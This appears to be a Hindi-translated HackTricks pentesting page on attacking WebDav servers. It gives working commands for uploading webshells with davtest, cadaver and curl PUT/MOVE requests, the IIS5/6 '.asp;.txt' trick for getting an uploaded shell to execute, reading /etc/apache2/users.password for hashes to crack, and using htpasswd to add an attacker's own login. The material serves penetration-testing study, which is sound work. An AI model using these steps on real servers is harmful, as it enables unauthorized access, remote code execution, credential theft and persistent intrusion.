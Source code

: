 # WebDav

{{#include ../../banners/hacktricks-training.md}}

जब **WebDav** सक्षम **HTTP सर्वर** के साथ काम कर रहे हैं, तो यदि आपके पास सही **प्रमाण पत्र** हैं, तो आप **फाइलों को संशोधित** कर सकते हैं, जो आमतौर पर **HTTP बेसिक ऑथेंटिकेशन** के माध्यम से सत्यापित होते हैं। ऐसे सर्वर पर नियंत्रण प्राप्त करना अक्सर **वेबशेल के अपलोड और निष्पादन** में शामिल होता है।

WebDav सर्वर तक पहुँचने के लिए आमतौर पर **मान्य प्रमाण पत्र** की आवश्यकता होती है, जिसमें [**WebDav ब्रूटफोर्स**](../../generic-hacking/brute-force.md#http-basic-auth) एक सामान्य विधि है।

फाइल अपलोड पर प्रतिबंधों को पार करने के लिए, विशेष रूप से उन प्रतिबंधों को जो सर्वर-साइड स्क्रिप्ट के निष्पादन को रोकते हैं, आप:

- यदि प्रतिबंधित नहीं है तो **निष्पादन योग्य एक्सटेंशन** वाली फाइलें सीधे **अपलोड** करें।
- अपलोड की गई गैर-निष्पादन योग्य फाइलों (जैसे .txt) का नाम बदलकर निष्पादन योग्य एक्सटेंशन में बदलें।
- अपलोड की गई गैर-निष्पादन योग्य फाइलों की **कॉपी** करें, उनके एक्सटेंशन को एक निष्पादन योग्य में बदलते हुए।

## DavTest

**Davtest** कई **विभिन्न एक्सटेंशनों** वाली फाइलों को **अपलोड** करने की कोशिश करता है और **जांचता** है कि क्या एक्सटेंशन **निष्पादित** होता है:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

इसका मतलब यह नहीं है कि **.txt** और **.html एक्सटेंशन निष्पादित हो रहे हैं**। इसका मतलब है कि आप **इन फ़ाइलों तक पहुँच सकते हैं** वेब के माध्यम से।

## Cadaver

आप इस उपकरण का उपयोग **WebDav** सर्वर से **जोड़ने** और क्रियाएँ (जैसे **अपलोड**, **स्थानांतरित** या **हटाना**) **हाथ से** करने के लिए कर सकते हैं।
```
cadaver <IP>
```
## PUT अनुरोध
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE अनुरोध
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav Vulnerability

यह सुरक्षा कमी बहुत दिलचस्प है। **WebDav** **फाइलों को अपलोड** या **नाम बदलने** की अनुमति **नहीं देता** जिनका एक्सटेंशन **.asp** है। लेकिन आप नाम के अंत में **";.txt"** जोड़कर इसे **बायपास** कर सकते हैं और फाइल को एक .asp फाइल की तरह **निष्पादित** किया जाएगा (आप **".html" का उपयोग भी कर सकते हैं ".txt" के बजाय** लेकिन **";" को मत भूलें**)। 

फिर आप अपनी शेल को एक ".**txt" फाइल** के रूप में **अपलोड** कर सकते हैं और इसे एक ".asp;.txt" फाइल में **कॉपी/मूव** कर सकते हैं। उस फाइल को वेब सर्वर के माध्यम से एक्सेस करने पर, यह **निष्पादित** होगा (कैडावर कहेगा कि मूव क्रिया काम नहीं की, लेकिन यह काम कर गई)।

![](<../../images/image (1092).png>)

## Post credentials

यदि Webdav एक Apache सर्वर का उपयोग कर रहा था तो आपको Apache में कॉन्फ़िगर की गई साइटों पर ध्यान देना चाहिए। सामान्यतः:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

इसके अंदर आप कुछ ऐसा पा सकते हैं:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
जैसा कि आप देख सकते हैं, **webdav** सर्वर के लिए मान्य **credentials** के साथ फ़ाइलें हैं:
```
/etc/apache2/users.password
```
इस प्रकार की फ़ाइलों के अंदर आपको **username** और पासवर्ड का **hash** मिलेगा। ये वे क्रेडेंशियल्स हैं जो वेबडाव सर्वर उपयोगकर्ताओं को प्रमाणित करने के लिए उपयोग कर रहा है।

आप उन्हें **crack** करने की कोशिश कर सकते हैं, या यदि किसी कारणवश आप **webdav** सर्वर तक **access** करना चाहते हैं तो **more** जोड़ सकते हैं:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
नए क्रेडेंशियल्स काम कर रहे हैं या नहीं यह जांचने के लिए आप कर सकते हैं:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## संदर्भ

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
